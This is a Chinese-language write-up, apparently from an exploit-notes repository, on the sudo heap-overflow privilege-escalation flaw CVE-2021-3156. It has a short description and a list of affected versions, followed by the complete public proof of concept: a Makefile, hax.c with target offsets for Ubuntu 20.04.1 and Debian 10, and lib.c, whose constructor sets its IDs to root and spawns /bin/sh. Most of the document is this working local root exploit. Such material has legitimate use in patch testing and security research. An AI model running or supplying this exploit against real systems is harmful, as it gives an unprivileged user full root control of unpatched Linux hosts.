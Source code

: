 # Linux sudo权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

> Sudo 1.8.2 - 1.8.31p2
>
> Sudo 1.9.0 - 1.9.5p1

## 漏洞复现

> [!NOTE]
>
> 目前POC已经在Github公开

[Linux sudo权限提升漏洞 CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

![](image/linux-1.png)

当前可以验证的Linux环境为

```
 Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
 Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
```

> [!NOTE]
>
> 这里使用腾讯云中的Ubuntu镜像进行复现

![](image/linux-2.png)

使用命令

![](image/linux-4.png)

![](image/linux-3.png)

## 漏洞利用POC

> [!NOTE]
>
> POC目录已经加入漏洞利用代码

Makefile

```shell
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```



hax.c

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    printf("  usage: %s <target>\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    printf("  ------------------------------------------------------------\n");
    printf("\n");
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = &targets[ atoi(argv[1]) ];

    printf("using target: '%s'\n", target->target_name);

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```



lib.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
}
```

